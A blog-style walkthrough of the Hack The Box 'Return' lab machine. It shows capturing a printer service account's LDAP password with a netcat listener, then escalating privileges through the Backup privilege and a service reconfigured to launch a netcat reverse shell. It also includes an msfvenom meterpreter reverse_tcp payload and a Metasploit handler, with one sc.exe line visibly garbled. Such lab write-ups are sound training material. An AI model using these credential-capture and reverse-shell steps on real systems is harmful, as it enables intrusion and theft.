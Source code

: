 ﻿---
title: 'Return Walkthrough: Exploiting Printer Misconfigurations'
date: 2024-11-08 19:00:00 +0530
categories: [red-teaming]
tags:
- HTB
- ldap
- on-prem
- privesc_backup
---

Walkthrough of HTB's Return machine

## Initial Recon

### NMAP Scan:

I began by scanning for interesting TCP ports to identify potential entry points:

```bash
> open_tcp_ports=$(sudo nmap -T5 -sS -n -Pn --disable-arp-ping -p- 10.10.11.108 --max-retries 0 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
> nmap -A -p $open_tcp_ports 10.10.11.42
```

**TCP scan results:**

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain?       syn-ack ttl 127
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-11-25 15:37:38Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49682/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
62633/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

No interesting information found in the UDP Scan results

### HTTP Recon

Accessing port 80 displays a web page labeled 'HTB Printer Admin Panel'.
![image.png]({{ '/assets/img/Return/image%201.png' | relative_url }})

Most available sections, such as 'Fax' and 'Troubleshooting,' are static, but the 'Settings' page includes an intriguing form with fields for the server address, port, username, and password, as shown below.
![image.png]({{ '/assets/img/Return/image%202.png' | relative_url }})

When I submitted the form, I observed that only the IP address field was forwarded to the server. Modifying the username and password fields did not result in any changes to the request.
![image.png]({{ '/assets/img/Return/image%203.png' | relative_url }})

Further research revealed interesting information
Printers can use LDAP (Lightweight Directory Access Protocol) to query the Active Directory for user details, such as email addresses, usernames, and group memberships. This allows features like:

- Sending scanned documents to a userâ€™s email directly.
- Displaying a list of users for specific authentication or tracking purposes.

For this to work, the printer needs LDAP credentials (often a service account like svc-printer) to bind to AD and perform queries.

I modified the IP address to point to my machine and set up a Netcat listener to intercept the data submitted by the form possibly revealing the password.

![image.png]({{ '/assets/img/Return/image%204.png' | relative_url }})

The incoming request revealed interesting information, which indeed appears to be a password.

```bash
â”Œâ”€â”€(kaliã‰¿kali)-[~]
â””â”€$ nc -nlvp 389                                                                   
listening on [any] 389 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.108] 63453
0*`%return\svc-printerï¿½
                       1edFg43012!!      
```

### SMB Recon

To validate the enumerated credentials, I used  netexec to enumerate SMB shares. The results confirmed that the credentials are valid, with the user having interesting 'READ' and 'WRITE' privileges on certain shares.
![image.png]({{ '/assets/img/Return/image.png' | relative_url }})

## Remote Access Using Compromised Credentials

I attempted to log in to the machine using the compromised credentials, as shown below:
![image.png]({{ '/assets/img/Return/image%206.png' | relative_url }})

Navigating to the Users directory reveals two users: svc-printer and Administrator
![image.png]({{ '/assets/img/Return/image%205.png' | relative_url }})

Accessing "user.txt" on the svc-printer's desktop reveals first flag.

## Privilege Escation to SYSTEM

### Method - 1

Enumerating privileges of "svc-printer" using *whoami* command
![image.png]({{ '/assets/img/Return/image%207.png' | relative_url }})

Since the user has the Backup privilege enabled. Uploading the necessary module to leverage this privilege for replication.
![image.png]({{ '/assets/img/Return/image%208.png' | relative_url }})

Using robocopy to copy the Administratorâ€™s desktop files to a temporary folder.
![image.png]({{ '/assets/img/Return/image%209.png' | relative_url }})

Followed by accessing root.txt

### Method - 2

Since the user belongs to the "Server Operators" group, which has the ability to start and stop system services,  leveraged this privilege to gain a reverse shell. Using evil-winrm, uploaded Netcat to the "Return" machine and modified the service configuration to execute a reverse shell command:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:[SC] ChangeServiceConfig SUCCESS4.exe -e cmd.exe 10.10.16.5 4444"
```

Stopping and restarting the service to trigger the reverse shell

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

> ðŸ’¡ **Note**: When executing the command sc start vss, it is important to explicitly specify sc.exe for the command to work correctly. Simply using sc will not be sufficient.

However, the obtained shell terminated after a few seconds. To resolve this issue, I proceeded to upload a Meterpreter shell for further exploitation.

Generated meterpreter reverse shell executable payload file using msfvenom
```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.5 LPORT=8888 -f exe > payload.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

Configuring Metasploit listener to listen on 8888

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.5
LHOST => 10.10.16.5
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
```

The same issue was observed when using the Metasploit Framework; the reverse shell terminated after a few seconds.

![image.png]({{ '/assets/img/Return/image%2010.png' | relative_url }})

To stabilize the session, I migrated the process to a more suitable one using the migrate <pid> command.

![image.png]({{ '/assets/img/Return/image%2011.png' | relative_url }})

Spawning the shell

![image.png]({{ '/assets/img/Return/image%2012.png' | relative_url }})

## Disclaimer

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*




